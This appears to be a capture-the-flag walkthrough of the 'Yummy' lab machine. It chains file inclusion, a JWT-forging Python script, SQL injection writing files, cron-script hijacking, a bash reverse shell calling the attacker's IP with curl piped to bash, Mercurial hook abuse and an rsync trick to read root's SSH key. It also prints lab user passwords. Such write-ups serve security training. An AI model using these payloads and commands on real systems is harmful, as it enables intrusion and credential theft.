


"Yummy" is a hard Linux machine that starts off by finding a Local File Inclusion (LFI) vulnerability in order to find several cron job scripts. These scripts lead to a database backup script of the website's source code that leaks a secret JWT key to forge a token for the admin account on the site. The backend is vulnerable to SQL injection that gives us initial access to the machine. Further enumeration reveals the password for another user that can run a command as another user to move laterally to a developer account. This account can run `rsync` as root, which allows us to copy the root user's SSH key.

# Reconnaissance
Our initial port scan only shows two standard ports open, 22 and 80.

```
# Nmap 7.94SVN scan initiated Sun Oct  6 14:04:12 2024 as: nmap -p- -sCV -v -oN yummy.nmap 10.129.74.97
Nmap scan report for 10.129.74.97
Host is up (0.014s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a2:ed:65:77:e9:c4:2f:13:49:19:b0:b8:09:eb:56:36 (ECDSA)
|_  256 bc:df:25:35:5c:97:24:f2:69:b4:ce:60:17:50:3c:f0 (ED25519)
80/tcp open  http    Caddy httpd
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://yummy.htb/
|_http-server-header: Caddy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to the website redirects us to `yummy.htb` and also displays that the version in use is **Caddy**. We add this domain to the `/etc/hosts` file and continue to explore the webpages. After creating an account and logging in, we can make a reservation.


From our dashboard, it is possible to save our reservation to a calendar file (ics) via the `save iCalendar` option.



The request makes a call to the `/export/Yummy_reservation_YYYYMMDD_hhmmss` endpoint where the date is the current timestamp of the export. This endpoint is vulnerable to LFI and we can alter the request to read arbitrary files as the `www-data` user.


From the `/etc/passwd` file, we can already identify several users on the machine.

```
root:x:0:0:root:/root:/bin/bash
dev:x:1000:1000:dev:/home/dev:/bin/bash
mysql:x:110:110:MySQL Server,,,:/nonexistent:/bin/false
caddy:x:999:988:Caddy web server:/var/lib/caddy:/usr/sbin/nologin
qa:x:1001:1001::/home/qa:/bin/bash
```

Further enumeration reveals that the contents of the `/etc/crontab` file contains some scripts.

```bash
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

We can download those files via the LFI vulnerability and check their contents.

## App Backup
The contents of the `app_backup.sh` script reveals the location of a zip file in the `/var/www` directory.

```bash
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```

This zip file is a backup of the original source code located in `/opt/app`. After downloading the zip and extracting it, we have the application's source code.



We can proceed to do some code analysis and see if we can spot additional vulnerabilities or credentials. The login method in `app.py` looks interesting.

```python
if user:
    payload = {
        'email': email,
        'role': user['role_id'],
        'iat': datetime.now(timezone.utc),
        'exp': datetime.now(timezone.utc) + timedelta(seconds=3600),
        'jwk':{'kty': 'RSA',"n":str(signature.n),"e":signature.e}
    }
    access_token = jwt.encode(payload, signature.key.export_key(), algorithm='RS256')

    response = make_response(jsonify(access_token=access_token), 200)
    response.set_cookie('X-AUTH-Token', access_token)
    return response
else:
    return jsonify(message="Invalid email or password"), 401
```

It uses the `signature.py` module to encode the payload into a JWT token. The payload does contain the RSA modulus n and the encryption exponent e. With knowledge of these values, we can decode any JWT token to find the original prime factors p and q and break the encryption.

Let's have a look at how we can decode our `customer` token and modify it to become `administrator`.

```python
import base64, json, jwt # pip install pyjwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

token='eyJhbGciOiJSUzI1N...<SNIP>'
payload = json.loads(base64.b64decode(token.split(".")[1] + "===").decode())

# find prime factors to get the decryption exponent (d)
n = int(payload["jwk"]["n"])
p,q = list(sympy.factorint(n).keys())
e = 65537
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)

key = RSA.construct((n, e, d, p, q))
private_key = key.export_key()

data = jwt.decode(
    token,
    private_key,
    algorithms=["RS256"],
    options={"verify_signature": False}
)

# insert admin role
data["role"] = "administrator"

# encode the new data in new token
new_token = jwt.encode(data, private_key, algorithm="RS256")
print(new_token)
```

We insert our current user JWT token in our script and run it. This will then print out a new JWT that has the `administrator` role and should be able to access the admin panel. Further along in the code of `app.py` there is also an SQL Injection vulnerability in the `admindashboard` endpoint.

```python
# added option to order the reservations
order_query = request.args.get('o', '')

sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
```

# Foothold
Let's perform a search query on the admin dashboard and intercept the request with BurpSuite. We can confirm the SQL Injection by making the server sleep for several seconds.


By using SQLMap we can check our user privileges:

```bash
$ sqlmap -r request --privileges

[15:27:11] [INFO] retrieved: 'FILE'
database management system users privileges:
[*] 'chef'@'localhost' [1]:
    privilege: FILE
```

We have `FILE` permissions, meaning we can read and write arbitrary files. Remember we still have a couple of cron scripts we haven't looked at yet, one of which is the `dbmonitor.sh` script owned by the `mysql` user. After we download this file via the same method as before, some things stand out.

```bash
<SNIP>
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi
[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```

If the file `dbstatus.json` exists and does not conain the string "database is down" then it runs a command with `/bin/bash`, afterwards it deletes the JSON file. This script is ran every minute. The `latest_version` variable lists the contents of the scripts folder with a wildcard. This script will sort all scripts starting with `fixer-v` and executes the last matching script (tail). Since we can write files via the SQL injection vulnerability, we can get a reverse shell.

First we create a reverse shell script and run a Python web server.

```console
$ echo "#\!/bin/bash\nbash -i >& /dev/tcp/10.10.14.102/9001 0>&1" > shell.sh
$ chmod +x shell.sh
$ sudo python -m http.server 80
```

We create a small script that automates the exploitation. It first grabs our payload, writes it to `/data/scripts/fixer-v999` and then writes an empty string to `/data/scripts/dbstatus.json` in order to execute our payload.

```bash
ip="10.10.14.102"
token="<ADMIN_JWT_TOKEN>"

write_file() {
  curl -s -H "Cookie: X-AUTH-Token=$token" "http://yummy.htb/admindashboard?s=ABC&o=ASC;select+\"$1\"+INTO+OUTFILE+'$2';"
}

# write a file to request the reverse shell and execute it with bash
write_file "curl+$ip/shell.sh+|bash" "/data/scripts/fixer-v999"

# write an empty file to dbstatus.json
write_file "" "/data/scripts/dbstatus.json"
```

We start a netcat listener on port 9001, run the above script and after a minute we should have received a connection back to our machine.

```bash
$ nc -nvlp 9001
mysql@yummy:/var/spool/cron$
```

# User
## Mysql to www-data
After getting a shell as the `mysql` we still have very limited access. We can move laterally to the `www-data` user since there is also a script (`app_backup.sh`) that runs every minute by this user. We are able to remove the backup file and replace it with the same reverse shell script.

```console
mysql@yummy:/var/spool/cron$ cd /data/scripts
mysql@yummy:/data/scripts$ wget http://10.10.14.102/shell.sh
mysql@yummy:/data/scripts$ rm app_backup.sh
mysql@yummy:/data/scripts$ mv shell.sh app_backup.sh
```

We again run a netcat listener to catch the shell (it might take a few tries). 

## www-data to qa
We can find a password for the `qa` user in the `/var/www/qa_testing/.hg/store/data/app.py.i` file. 

```console
www-data@yummy:~$ cd /var/www/app-qatesting/.hg/store/data
www-data@yummy:~/app-qatesting/.hg/store/data$ strings app.py.i
'user': 'chef',
'password': '3wDo7gSRZIwIHRxZ!',

'user': 'qa',
'password': 'jPAd!XQCtn8Oc@2B',
```

We can now SSH as `qa`.

```bash
ssh qa@yummy.htb
qa@yummy:~$ cat user.txt
```

# Root
## QA to Dev
The qa user can run a command as the dev user.

```console
qa@yummy:~$ sudo -l
User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

Looking online this command is used by Mercurial SCM. In our home folder we have a `.hgrc` file that contains some configuration options. One option of Mercurial is to create hooks that run before/after certain actions. From the [Mercurial Docs](https://repo.mercurial-scm.org/hg/help/hgrc) there is also a hook called `post-<command>` that runs after successful invocations of the associated command.

```console
qa@yummy:~$ nano .hgrc
[hooks]
post-pull = /tmp/shell.sh
```

Again we download our shell and modify the `.hgrc` file to run our shell after a pull request. Next we run a netcat listener and perform the pull request as the `dev` user.

```console
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
abort: Permission denied: '/home/qa/.hg'
```

When running the command, we get a permission denied error so we try another way. From the same documentation, you can also specify the configuration file inside the `.hg` folder per repository. We can create this file in the `/tmp` directory and then try to run our exploit again.

```console
qa@yummy:~/tmp$ mkdir .hg
qa@yummy:~/tmp$ chmod 777 .hg
qa@yummy:~/tmp$ cp ~/.hgrc .hg/hgrc
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

## Dev to Root
We now have a shell as the `dev` user that can run `rsync` as root. Rsync is a tool for synchronizing files and directories between location.

```console
dev@yummy:~/app-production$ sudo -l
User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

We can exploit this by copying the root user's private SSH key. One quick way to read the root flag or root SSH key is using the following command:

```console
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/root.txt --chmod=777 /opt/app/ && cat /opt/app/root.txt
dev@yummy:~$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/../../../root/.ssh/id_rsa --chmod=777 /opt/app/ && cat /opt/app/id_rsa
```

The key element is the `--chmod` flag of the rsync binary. This additional parameter changes the ownership of the copied file. Since we are the `dev` user, all files will be copied under our permissions, so this option lets us change the permission of file we copied from the root directory. Now we can copy the SSH key and login as the root user.

```console
$ chmod 600 id_rsa
$ shh -i id_rsa root@yummy.htb
root@yummy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@yummy:~# cat root.txt
```